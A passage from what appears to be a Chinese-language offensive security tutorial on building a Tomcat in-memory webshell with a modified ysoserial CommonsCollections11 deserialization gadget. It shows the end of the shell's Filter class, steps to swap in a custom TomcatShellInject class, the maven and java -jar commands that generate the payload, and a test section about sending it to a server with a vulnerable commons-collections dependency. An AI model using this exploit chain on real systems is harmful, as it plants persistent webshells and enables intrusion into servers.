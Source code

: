 
    @Override
    public void destroy() {` 

    `}
    }` 

和第一个步骤创建的TomcatEchoInject不一样，这里我们不但基础了AbstractTranslet，还实现了Filter创建一个我们自定义的内存Webshell

最后，我们也按照第一个步骤那样，创建一个ysoserial的`CommonsCollections11`类的拷贝，名叫`CommonsCollections11ForTomcatShellInject`，并把其`Gadgets.createTemplatesImpl(command[0])`的调用改成`Gadgets.createTemplatesImpl(null, TomcatShellInject.class)`，这样，我们的Webshell payload就完成了。

通过执行maven打包

```
mvn clean -Dmaven.test.skip=true compile assembly:assembly 
```

然后执行生成的jar

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatShellInject > ~/tmp/TomcatEchoInject.ysoserial 
```

就生成了CommonsCollections11ForTomcatShellInject的payload了

## 0x03 测试

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![image](../img/e98d62961f0bf03765afbdeb938798c4.png)

![image](../img/258bc1c14a358d47c74b6f340685c540.png)

